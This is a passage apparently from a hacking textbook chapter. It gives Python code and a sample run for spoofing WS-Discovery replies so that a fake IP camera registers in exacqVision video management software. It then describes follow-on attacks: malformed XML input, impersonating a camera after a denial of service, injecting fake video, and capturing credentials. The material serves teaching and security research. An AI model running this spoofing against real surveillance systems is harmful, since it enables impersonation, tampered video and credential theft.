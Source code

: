 directed to 239.255.255.250 by joining that multicast group address 2.    Listing 6-6 shows the final part of our code, which includes the main loop.    ```  while True:     print("Waiting for WS-Discovery message...\n", file=sys.stderr)     data, addr = sock.recvfrom(1024) 1     if data:       server_addr = addr[0] 2       server_port = addr[1]       print('Received from: %s:%s' % (server_addr, server_port), file=sys.stderr)       print('%s' % (data), file=sys.stderr)       print("\n", file=sys.stderr)        # do not parse any further if this is not a WS-Discovery Probe       if "Probe" not in data: 3         continue        # first find the MessageID tag       m = data.find("MessageID") 4       # from that point in the buffer, continue searching for "uuid" now       u = data[m:-1].find("uuid")       num = m + u + len("uuid:")       # now get where the closing of the tag is       end = data[num:-1].find("<")       # extract the uuid number from MessageID       orig_uuid = data[num:num + end]       print('Extracted MessageID UUID %s' % (orig_uuid), file=sys.stderr)        # replace the _PROBEUUID_ in buffer with the extracted one       buf = orig_buf       buf = buf.replace("_PROBEUUID_", orig_uuid) 5       # create a new random UUID for every packet       buf = buf.replace("_MESSAGEID_", str(uuid.uuid4())) 6        print("Sending WS reply to %s:%s\n" % (server_addr, server_port), file=sys.stderr)        udp_socket = socket.socket(socket.AF_INET, socket.SOCK_DGRAM) 7       udp_socket.sendto(buf, (server_addr, server_port)) ```    Listing 6-6: The main loop, which receives a WS-Discovery Probe message, extracts the `MessageID`, and sends the attacking payload    The script enters an infinite loop in which it listens for WS-Discovery Probe messages 1 until we stop it (CTRL-C will exit the loop on Linux). If we receive a packet that contains data, we get the sender’s IP address and port 2 and save them in the variables `server_addr` and `server_port`, respectively. We then check whether the string `"Probe"`3 is included inside the received packet; if it is, we assume this packet is a WS-Discovery Probe. Otherwise, we don’t do anything else with the packet.    Next, we try to find and extract the UUID from the `MessageID` XML tag without using any part of the XML library (because this would create unnecessary overhead and complicate this simple operation), relying only on basic string manipulation 4. We replace the `_PROBEUUID_` placeholder from Listing 6-3 with the extracted UUID 5 and create a new random UUID to replace the `_MESSAGE_ID`placeholder 6. Then we send the UDP packet back to the sender 7.    Here is an example run of the script against the exacqVision software:    ``` root@kali:~/zeroconf/ws-discovery# python3 exacq-complete.py  Waiting for WS-Discovery message... Received from: 192.168.10.169:54374 <?xml version="1.1" encoding="utf-8"?><Envelope  ><Header><wsa:MessageID >urn:uuid:2ed72754-2c2f-4d10-8f50-79d67140d268</wsa:MessageID><wsa:To >urn:schemas-xmlsoap-org:ws:2005:04:discovery</wsa:To><wsa:Action >http://schemas.xmlsoap.org/ws/2005/04/discovery/Probe</wsa:Action></Header><Body><Probe xmlns:xsi=http://www.w3.org/2001/XMLSchema-instance xmlns:xsd=http://www.w3.org/2001/XMLSchema ><Types>dn:NetworkVideoTransmitter</Types><Scopes /></Probe></Body></Envelope> Extracted MessageID UUID 2ed72754-2c2f-4d10-8f50-79d67140d268 Sending WS reply to 192.168.10.169:54374 Waiting for WS-Discovery message... ```    Notice that every time you run the script, the MessageID UUID will be different. We leave it as an exercise for you to print the attacking payload and verify that same UUID appears in the `RelatesTo` field inside it.    In the exacqClient interface, our fake camera appears in the list of devices, as shown in Figure 6-18.  ![f06018](img/f06018.png)    Figure 6-18: Our fake camera appears on the exacqClient list of IP cameras.      In the next section, we’ll explore what you could accomplish once you’ve been registered as a camera.    ### Crafting WS-Discovery Attacks    What types of attacks can you conduct by abusing this simple discovery mechanism? First, you can attack the video management software through this vector, because XML parsers are notorious for bugs that lead to memory corruption vulnerabilities. Even if the server doesn’t have any other exposed listening port, you could feed it malformed input through WS-Discovery.    A second attack would have two steps. First, cause a denial of service on a real IP camera so it loses connection to the video server. Second, send WS-Discovery information that makes your fake camera look like the legitimate, disconnected one. In that case, you might be able to fool the server’s operator into adding the fake camera to the list of cameras that the server manages. Once added, you can feed the server with artificial video input.    In fact, in some cases you could carry out the previous attack without even causing a denial of service in the real IP camera. You’d just have to send the WS-Discovery Probe Match response to the video server before the real camera sends it. In that case, and assuming the information is identical or similar enough (replicating the Name, Type, and Model fields from the real camera is enough most times), the real camera won’t even appear in the management software if you’ve successfully taken its place.    Third, if the video software uses an insecure authentication to the IP camera (for example, HTTP basic authentication), it’s possible to capture the credentials. An operator who adds your fake camera will type in the same username and password as the original one. In that case, you might be able to capture the credentials as the server attempts to authenticate against what it assumes is the real one. Because password reuse is a common problem, it’s likely that other cameras on the network use the same password, especially if they’re of the
